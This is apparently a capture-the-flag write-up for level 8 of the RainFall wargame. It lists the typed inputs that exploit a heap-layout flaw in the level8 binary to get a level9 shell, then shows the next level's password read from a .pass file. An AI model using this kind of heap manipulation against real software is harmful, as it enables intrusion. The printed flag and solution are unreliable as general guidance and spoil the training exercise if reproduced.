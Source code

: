 No payload.sh on this level the only steps to follow is:
- Execute level8
- Type "auth lala"
- Type "servic aaaabbbbccccdddd"
- Type "login"

And you arrive on the new shell where you can find the flag:

```sh
level8@RainFall:~$ ./level8
(nil), (nil) 
auth lala
0x804a008, (nil) 
servic aaaabbbbccccdddd
0x804a008, 0x804a018 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
